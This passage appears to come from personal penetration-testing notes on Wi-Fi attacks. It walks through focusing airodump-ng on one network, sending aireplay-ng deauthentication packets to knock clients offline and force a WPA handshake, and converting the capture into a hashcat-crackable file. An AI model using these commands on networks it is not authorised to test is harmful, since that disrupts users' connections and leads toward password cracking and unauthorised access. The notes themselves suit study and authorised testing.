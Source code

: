 Now we focus our scan onto our target

```
sudo airodump-ng wlan1mon -c CH# --essid "SSID" -w outfile
```

!\[\[image 246.png]]

We can name the .cap file whatever we want, I typically just name it the targets SSID

Now we can see here at the bottom, we see `BSSID`, `STATION`, `PWR`, `Rate`, `Lost`, etc. this indicates if a device is connected to that network. This may not _always_ show devices but is helpful to keep an eye on.

At this point we can simply wait for a device to connect to the network to obtain the handshake, or we send deauth packets to the network to force a device to reconnect to the network to obtain the handshake. We can do this in various ways.

In a second terminal we will send 10 deauthentication packets to the network and stop.

```
sudo aireplay-ng -0 10 -a BSSID wlan1mon
```

!\[\[image 247.png]]

We can also deauthenticate a specific device that is connected to the network with

```
sudo aireplay-ng -0 10 -a BSSID -c STATION wlan1mon
```

!\[\[image 248.png]]

Once we have obtained the handshake, we will see our airodump terminal change, it will specify in the top right with `WPA Handshake: BSSID`.

!\[\[image 249.png]]

Note: We can also obtain PMKID with this method as well if the AP is vulnerable to that attack.

This is handshake is saved into the .cap file we specified we when target our airodump-ng scan. Once we have a handshake from aircrack, we will want to turn it into a hashcat compatible file. First we want to extract the handshake from the .cap file

<pre><code><strong>sudo aircrack-ng -j handshake capture.cap
</strong></code></pre>

!\[\[image 250.png]]

OR using HCXDumptool

```
sudo hcxpcapngtool -o SSIDHash outfile.cap
```

!\[\[image 251.png]]

!\[\[image 252.png]]

***

## HCXDumptool
